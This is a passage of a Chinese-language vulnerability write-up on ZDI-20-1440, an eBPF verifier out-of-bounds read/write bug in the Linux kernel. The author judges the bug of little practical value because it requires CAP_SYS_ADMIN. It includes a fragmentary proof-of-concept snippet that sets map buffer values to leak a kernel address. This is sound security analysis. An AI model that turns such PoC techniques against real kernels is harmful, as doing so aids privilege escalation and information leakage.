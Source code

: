 所以要利用此漏洞需要拥有CAP_SYS_ADMIN 权限才行，这基本需要root才能开启，因此这个越界读写导致提权的漏洞实则比较鸡肋，并且在高版本内核已经修复了，所以Linux 社区不回应ZDI也是有一定道理的，但ZDI评分8.8也是偏高了。



## 漏洞利用

该漏洞没啥利用价值，但姑且写了个越界读写的poc，申请一个0x100大小的ctrl_map，通过设置 `ctrl_buf[0] = 0x170*2;`<br>`ctrl_buf[1] = 1;`, 使得右移后的r3等于0x170，因为通过调试可以看到map指针+0x170处存放了一个内核地址，可以进行泄露。

```
……
ctrl_mapfd = bpf_create_map(BPF_MAP_TYPE_ARRAY,sizeof(int),0x100,1,0);
……
static void update_elem(uint32_t op)
`{`
    ctrl_buf[0] = 0x170*2;
    ctrl_buf[1] = 1;

    bpf_update_elem(0, ctrl_buf, ctrl_mapfd, 0);
    writemsg();
`}`
```

效果如下：

[![](https://p1.ssl.qhimg.com/t01075bca6670a5864e.png)](https://p1.ssl.qhimg.com/t01075bca6670a5864e.png)

需要root权限，就很鸡肋，有点标题党的意思。

环境：

[https://github.com/De4dCr0w/kernel-vul-env/tree/master/ZDI-20-1440](https://github.com/De4dCr0w/kernel-vul-env/tree/master/ZDI-20-1440)



## 参考链接

[https://www.thezdi.com/blog/2021/1/18/zdi-20-1440-an-incorrect-calculation-bug-in-the-linux-kernel-ebpf-verifier](https://www.thezdi.com/blog/2021/1/18/zdi-20-1440-an-incorrect-calculation-bug-in-the-linux-kernel-ebpf-verifier)
